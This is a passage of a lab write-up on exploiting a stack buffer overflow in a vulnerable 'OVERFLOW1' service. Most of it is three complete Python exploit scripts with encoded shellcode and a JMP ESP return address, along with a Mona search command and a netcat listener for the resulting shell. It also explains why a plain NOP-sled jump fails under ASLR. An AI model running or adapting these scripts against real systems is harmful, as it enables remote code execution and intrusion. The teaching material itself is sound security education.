payload = ("\xdb\xcc\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x52\xbd\x1d\xb9"
"\x0d\xf9\x31\x6a\x17\x83\xea\xfc\x03\x77\xaa\xef\x0c\x7b"
"\x24\x6d\xee\x83\xb5\x12\x66\x66\x84\x12\x1c\xe3\xb7\xa2"
"\x56\xa1\x3b\x48\x3a\x51\xcf\x3c\x93\x56\x78\x8a\xc5\x59"
"\x79\xa7\x36\xf8\xf9\xba\x6a\xda\xc0\x74\x7f\x1b\x04\x68"
"\x72\x49\xdd\xe6\x21\x7d\x6a\xb2\xf9\xf6\x20\x52\x7a\xeb"
"\xf1\x55\xab\xba\x8a\x0f\x6b\x3d\x5e\x24\x22\x25\x83\x01"
"\xfc\xde\x77\xfd\xff\x36\x46\xfe\xac\x77\x66\x0d\xac\xb0"
"\x41\xee\xdb\xc8\xb1\x93\xdb\x0f\xcb\x4f\x69\x8b\x6b\x1b"
"\xc9\x77\x8d\xc8\x8c\xfc\x81\xa5\xdb\x5a\x86\x38\x0f\xd1"
"\xb2\xb1\xae\x35\x33\x81\x94\x91\x1f\x51\xb4\x80\xc5\x34"
"\xc9\xd2\xa5\xe9\x6f\x99\x48\xfd\x1d\xc0\x04\x32\x2c\xfa"
"\xd4\x5c\x27\x89\xe6\xc3\x93\x05\x4b\x8b\x3d\xd2\xac\xa6"
"\xfa\x4c\x53\x49\xfb\x45\x90\x1d\xab\xfd\x31\x1e\x20\xfd"
"\xbe\xcb\xe7\xad\x10\xa4\x47\x1d\xd1\x14\x20\x77\xde\x4b"
"\x50\x78\x34\xe4\xfb\x83\xdf\x01\xf4\x45\xd4\x7e\x06\x59"
"\xfa\x22\x8f\xbf\x96\xca\xd9\x68\x0f\x72\x40\xe2\xae\x7b"
"\x5e\x8f\xf1\xf0\x6d\x70\xbf\xf0\x18\x62\x28\xf1\x56\xd8"
"\xff\x0e\x4d\x74\x63\x9c\x0a\x84\xea\xbd\x84\xd3\xbb\x70"
"\xdd\xb1\x51\x2a\x77\xa7\xab\xaa\xb0\x63\x70\x0f\x3e\x6a"
"\xf5\x2b\x64\x7c\xc3\xb4\x20\x28\x9b\xe2\xfe\x86\x5d\x5d"
"\xb1\x70\x34\x32\x1b\x14\xc1\x78\x9c\x62\xce\x54\x6a\x8a"
"\x7f\x01\x2b\xb5\xb0\xc5\xbb\xce\xac\x75\x43\x05\x75\x95"
"\xa6\x8f\x80\x3e\x7f\x5a\x29\x23\x80\xb1\x6e\x5a\x03\x33"
"\x0f\x99\x1b\x36\x0a\xe5\x9b\xab\x66\x76\x4e\xcb\xd5\x77"
"\x5b")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```

As shown in the script above, **we've prepended a set of `0x90` char byte to the shellcode**: this char will be interpreted by the processor as `No Operation` and will simply make it proceed to the next instruction.
This set of NOP statements is called a *NOP Sled* and <ins>it is used to make the exploit more reliable, since there could be some space between the start of the shellcode and the address that we will hardcode within the return address slot</ins>


### Pointing to the shellcode.

The last piece of the puzzle here is to figure out **how to find the address to our payload**. 
Since we're placing our payload after the return address, it will end within the previous stack frame: **<ins>when the current function exits, the stack frame is removed from the top of the stack and the new top of the stack will contain exactly the malicious payload formed by NOP Sled plus shellcode!</ins>**


But how can we obtain the address of the top of the stack, the one contained within ESP?
The first key point to keep in mind is that we don't know what value ESP will have at that point, <ins>because of stack ASLR and because a different depth of call stack leading up to this point could change the address: so we can't hard-code a correct return address.</ins>


**The way to make the processor execute the istructions of the malicious payload is to find some `JMP ESP` or `CALL ESP` istruction at fixed memory addresses (not ASLRed) and to hardcode that istruction address within the return address to be overwritten.**

This can be performed within Immunity Debugger with the Mona script, executing the following command

```bash
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

This command will find any `JMP ESP` bytes that does not contain the badchars (keep in mind that if any, the entire payload would not work).



As showed by the image above, there is a set of **9 pointers to `JMP ESP` istruction**, but let's have a closer look: these addresses belong to a **DLL (Dynamic Linked Library)** named essfunc.dll and **the ASLR is disabled**. 

**It is interesting to note that some DLLs could have the ASLR disabled and would be allocated within a [preferred base address](https://www.mandiant.com/resources/blog/six-facts-about-address-space-layout-randomization-on-windows), that is predictable!**

We can now chose one address among the 9 found, let's say `625011C7`, and place it within the `retn` variable from our **exploit.py** script: since these values will be written within the stack and will be popped out from the last to the first (*FILO*), we must write it in *little-endian* (the least significant byte comes first).

```python3
import socket

ip = "10.10.116.35"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
# Little Endian (was 625011C7) --> because it has to be pushed within the stack and will be popped out from the least significant byte.
retn = "\xc7\x11\x50\x62"
# NOP Sled x16
padding = "\x90" * 16
# Cyclic pattern / Bytearray (badchars: \x00) / Shellcode
# badchars for OVERFLOW1 \x00\x07\x2e\xa0
payload = ("\xdb\xcc\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x52\xbd\x1d\xb9"
"\x0d\xf9\x31\x6a\x17\x83\xea\xfc\x03\x77\xaa\xef\x0c\x7b"
"\x24\x6d\xee\x83\xb5\x12\x66\x66\x84\x12\x1c\xe3\xb7\xa2"
"\x56\xa1\x3b\x48\x3a\x51\xcf\x3c\x93\x56\x78\x8a\xc5\x59"
"\x79\xa7\x36\xf8\xf9\xba\x6a\xda\xc0\x74\x7f\x1b\x04\x68"
"\x72\x49\xdd\xe6\x21\x7d\x6a\xb2\xf9\xf6\x20\x52\x7a\xeb"
"\xf1\x55\xab\xba\x8a\x0f\x6b\x3d\x5e\x24\x22\x25\x83\x01"
"\xfc\xde\x77\xfd\xff\x36\x46\xfe\xac\x77\x66\x0d\xac\xb0"
"\x41\xee\xdb\xc8\xb1\x93\xdb\x0f\xcb\x4f\x69\x8b\x6b\x1b"
"\xc9\x77\x8d\xc8\x8c\xfc\x81\xa5\xdb\x5a\x86\x38\x0f\xd1"
"\xb2\xb1\xae\x35\x33\x81\x94\x91\x1f\x51\xb4\x80\xc5\x34"
"\xc9\xd2\xa5\xe9\x6f\x99\x48\xfd\x1d\xc0\x04\x32\x2c\xfa"
"\xd4\x5c\x27\x89\xe6\xc3\x93\x05\x4b\x8b\x3d\xd2\xac\xa6"
"\xfa\x4c\x53\x49\xfb\x45\x90\x1d\xab\xfd\x31\x1e\x20\xfd"
"\xbe\xcb\xe7\xad\x10\xa4\x47\x1d\xd1\x14\x20\x77\xde\x4b"
"\x50\x78\x34\xe4\xfb\x83\xdf\x01\xf4\x45\xd4\x7e\x06\x59"
"\xfa\x22\x8f\xbf\x96\xca\xd9\x68\x0f\x72\x40\xe2\xae\x7b"
"\x5e\x8f\xf1\xf0\x6d\x70\xbf\xf0\x18\x62\x28\xf1\x56\xd8"
"\xff\x0e\x4d\x74\x63\x9c\x0a\x84\xea\xbd\x84\xd3\xbb\x70"
"\xdd\xb1\x51\x2a\x77\xa7\xab\xaa\xb0\x63\x70\x0f\x3e\x6a"
"\xf5\x2b\x64\x7c\xc3\xb4\x20\x28\x9b\xe2\xfe\x86\x5d\x5d"
"\xb1\x70\x34\x32\x1b\x14\xc1\x78\x9c\x62\xce\x54\x6a\x8a"
"\x7f\x01\x2b\xb5\xb0\xc5\xbb\xce\xac\x75\x43\x05\x75\x95"
"\xa6\x8f\x80\x3e\x7f\x5a\x29\x23\x80\xb1\x6e\x5a\x03\x33"
"\x0f\x99\x1b\x36\x0a\xe5\x9b\xab\x66\x76\x4e\xcb\xd5\x77"
"\x5b")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")


```

### Exploitation

Before executing the exploit, the last thing to do is to listen for the shell with `netcat`

```bash
nc -nlvp 4444
```

The result of the execution of the exploit is showed by the image below.



## Bonus content

### Trying to exploit the simple stack smashing technique, and failing.

The technique shown in this article is not the so called *simple stack smashing* one, that is injecting the malicious shellcode and <ins>redirecting the program execution to it by hardcoding an address that will likely be in the middle of the NOP Sled</ins>.



We can explain why this technique would not work by first describing what is the **Address Space Layout Randomization (ASLR)** and later trying to exploit it and showing that it does not work, by examining the memory behaviour.

The [Address Space Layout Randomization (ASLR)](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is a technology used to **randomize the memory addresses that are assigned to a process**: it will prevent shellcode execution because the attacker cannot predict its exact memory location. 

We wrote an **exploit2.py** script that builds up the same payload showed in the image above.

```python3
import socket

ip = "10.10.73.27"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
# Little Endian (was 019FF268) --> because it has to be pushed within the stack and will be popped out from the least significant byte.
retn = "\x68\xf4\x9f\x01"
# NOP Sled will be 1627 bytes, since the payload is 351 bytes (offset - payload length).
padding = "\x90" * 1627
# Cyclic pattern / Bytearray (badchars: \x00) / Shellcode
# badchars for OVERFLOW1 \x00\x07\x2e\xa0
payload = ("\xdb\xcc\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x52\xbd\x1d\xb9"
"\x0d\xf9\x31\x6a\x17\x83\xea\xfc\x03\x77\xaa\xef\x0c\x7b"
"\x24\x6d\xee\x83\xb5\x12\x66\x66\x84\x12\x1c\xe3\xb7\xa2"
"\x56\xa1\x3b\x48\x3a\x51\xcf\x3c\x93\x56\x78\x8a\xc5\x59"
"\x79\xa7\x36\xf8\xf9\xba\x6a\xda\xc0\x74\x7f\x1b\x04\x68"
"\x72\x49\xdd\xe6\x21\x7d\x6a\xb2\xf9\xf6\x20\x52\x7a\xeb"
"\xf1\x55\xab\xba\x8a\x0f\x6b\x3d\x5e\x24\x22\x25\x83\x01"
"\xfc\xde\x77\xfd\xff\x36\x46\xfe\xac\x77\x66\x0d\xac\xb0"
"\x41\xee\xdb\xc8\xb1\x93\xdb\x0f\xcb\x4f\x69\x8b\x6b\x1b"
"\xc9\x77\x8d\xc8\x8c\xfc\x81\xa5\xdb\x5a\x86\x38\x0f\xd1"
"\xb2\xb1\xae\x35\x33\x81\x94\x91\x1f\x51\xb4\x80\xc5\x34"
"\xc9\xd2\xa5\xe9\x6f\x99\x48\xfd\x1d\xc0\x04\x32\x2c\xfa"
"\xd4\x5c\x27\x89\xe6\xc3\x93\x05\x4b\x8b\x3d\xd2\xac\xa6"
"\xfa\x4c\x53\x49\xfb\x45\x90\x1d\xab\xfd\x31\x1e\x20\xfd"
"\xbe\xcb\xe7\xad\x10\xa4\x47\x1d\xd1\x14\x20\x77\xde\x4b"
"\x50\x78\x34\xe4\xfb\x83\xdf\x01\xf4\x45\xd4\x7e\x06\x59"
"\xfa\x22\x8f\xbf\x96\xca\xd9\x68\x0f\x72\x40\xe2\xae\x7b"
"\x5e\x8f\xf1\xf0\x6d\x70\xbf\xf0\x18\x62\x28\xf1\x56\xd8"
"\xff\x0e\x4d\x74\x63\x9c\x0a\x84\xea\xbd\x84\xd3\xbb\x70"
"\xdd\xb1\x51\x2a\x77\xa7\xab\xaa\xb0\x63\x70\x0f\x3e\x6a"
"\xf5\x2b\x64\x7c\xc3\xb4\x20\x28\x9b\xe2\xfe\x86\x5d\x5d"
"\xb1\x70\x34\x32\x1b\x14\xc1\x78\x9c\x62\xce\x54\x6a\x8a"
"\x7f\x01\x2b\xb5\xb0\xc5\xbb\xce\xac\x75\x43\x05\x75\x95"
"\xa6\x8f\x80\x3e\x7f\x5a\x29\x23\x80\xb1\x6e\x5a\x03\x33"
"\x0f\x99\x1b\x36\x0a\xe5\x9b\xab\x66\x76\x4e\xcb\xd5\x77"
"\x5b")
postfix = ""

# Buffer to be used with the JMP ESP return address, because the payload will be placed after it, on the top of the old stack frame.
#buffer = prefix + overflow + retn + padding + payload + postfix

# Buffer to be used with the address of a NOP istruction found in memory after the first crash. The retn address value will point directly within the overflowed buffer. (NO ASLR).
buffer = prefix + padding + payload + retn

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")


```
Considering that the offset is `1978`, we crash the server and insert `ABBA` within the return address.



After crashing the server, the return address will contain `ABBA`, as expected, but our focus here is to the `EAX` register: if we follow it on the stack, we can visualize the data injected. 
The thing that is easily visible, is the NOP Sled after the “OVERFLOW 1” prefix: to replicate the tecnique discussed above, we take an address from the NOP Sled and hardcode it within the return address. 

**It should lead the execution to the shellcode, right?**



It doesn't work, in fact the stack frame has been allocated to another address, because of the Address Space Layout Randomization.

**That's all, fellows Hackers!**

[^1]: When the function ends, restoring the "functional context” of the previous function means to pop the SFP and to set it as the EBP value and to set EIP as the Return Address.
[^2]: It is called the shellcode because the encoded assembly code often returns a shell to the attacker, but it can perform every action (e.g. inserting a root user within the /usr/shadow file).
